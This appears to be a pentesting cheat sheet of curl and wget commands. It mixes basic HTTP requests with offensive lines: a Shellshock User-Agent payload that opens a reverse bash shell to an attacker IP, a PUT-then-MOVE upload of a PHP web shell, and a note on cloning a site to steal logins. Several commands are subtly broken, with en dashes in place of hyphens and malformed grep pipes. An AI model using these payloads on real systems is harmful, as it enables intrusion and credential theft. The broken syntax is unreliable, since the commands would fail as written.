 
### curl
```bash
# get webpage
curl localhost

# get webpage –include protocol response headers
curl –i localhost

# get webpage verbose output
curl –v localhost

# --data  POST used by default
curl –d "first=dan&second=hag" localhost 

# --data  PUT
curl –X PUT –d "first=dan&second=hag" localhost

 # delete
curl –X DELETE localhost

# authenticate
curl –u your_username:your_password localhost

# download and save file
curl –o test.jpg localhost/test.jpg

curl –I http://10.11.1.71/cgi-bin/admin.cgi -s | html2text
curl -T 'leetshellz.txt' 'http://$ip' # Upload with curl
curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

# check before seq
curl http://10.10.10.10/index.php/jobs/apply/8 –s grep | '<title>'

# pulls post 0-20 titles from website
for i in $(seq 0 20); do echo –n "$i: "curl http://10.10.10.10/index.php/jobs/apply/$i –s grep | '<title>'; done

curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  bash -i >& /dev/tcp/10.11.0.165/443 0>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'  
```

### wget
```bash
# single page
wget http://www.example.com/filename.txt -o /path/filename.txt

# clone full site/continue
wget –c –mk http://www.example.com -o /path/folder
# Serve the cloned site. Get credentials from login and redirect victim to genuine site

wget –m –no-passive ftp://anonymous:anonymous@ip
```
